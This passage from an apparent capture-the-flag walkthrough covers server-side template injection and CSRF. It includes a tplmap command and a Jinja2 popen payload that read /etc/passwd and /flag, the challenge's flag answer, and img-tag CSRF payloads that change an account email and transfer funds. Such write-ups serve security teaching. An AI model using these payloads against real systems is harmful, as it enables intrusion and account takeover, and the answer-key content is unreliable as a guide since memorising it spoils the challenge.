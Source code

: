 From there we can effectively do everything we did in the manual exploitation task, from a command line. Let's try running id using tplmap.

![](https://imgur.com/eqUQETT.png)

Victory!

	
1. How would I cat out /etc/passwd using tplmap on the ip:port combo 10.10.10.10:5000, with the vulnerable param "noot".
	
*ANSWER:* `tplmap -u http://10.10.10.10:5000/ -d 'noot' --os-cmd 'cat /etc/passwd'`

### TASK 6: Section 1 - SSTI :Challenge
	

I've created a vulnerable machine for you to test your SSTI skills on! I've placed a flag in /flag aswell, good luck and have fun!
	

1. What is the flag?
	
*payload:* ``{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}``
*ANSWER:* `cooctus`

### TASK 7 : Section 2 - CSRF: What is CSRF

Cross Site Request Forgery, known as CSRF occurs when a user visits a page on a site, that performs an action on a different site. For instance, let's say a user clicks a link to a website created by a hacker, on the website would be an html tag such as <img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">  which would change the account email on the vulnerable website to "pwned@evil-user.net".  CSRF works because it's the victim making the request not the site, so all the site sees is a normal user making a normal request.  

This opens the door, to the user's account being fully compromised through the use of a password reset for example. The severity of this cannot be overstated, as it allows an attacker to potentially gain personal information about a user, such as credit card details in an extreme case.


### TASK 8 : Section 2 - CSRF : Manual exploitation of CSRF

Let's take an example application   

![](https://imgur.com/P6oMiiZ.png)

It seems simple enough, As user bob, I can send funds to either Bob or Alice with any of the available balance in my account. Let's take a closer look at the request in burp.

![](https://imgur.com/RYEnGqy.png)

This is looking good, parameters we can customize and a session cookie that is automatically set. Everything seems vulnerable to CSRF. Let's try and make a vulnerable site. Putting <img src="http://localhost:3000/transfer?to=alice&amount=100"> into an html file and using SimpleHTTPServer to host it should change's Alice's balance by 100, Let's see if it does!

![](https://imgur.com/wUUlax4.png)

Woohoo, CSRF exploited!


### TASK 9 : Section 2 - CSRF : Automatic Exploitation

Once again, there is a nice automated scanner, which tests if a site is vulnerable to CSRF. this tool is known as xsrfprobe and can be install via pip using `pip3 install xsrfprobe`. This will only work using python 3(I mean come on it's 2020 you should be using python 3 anyway).
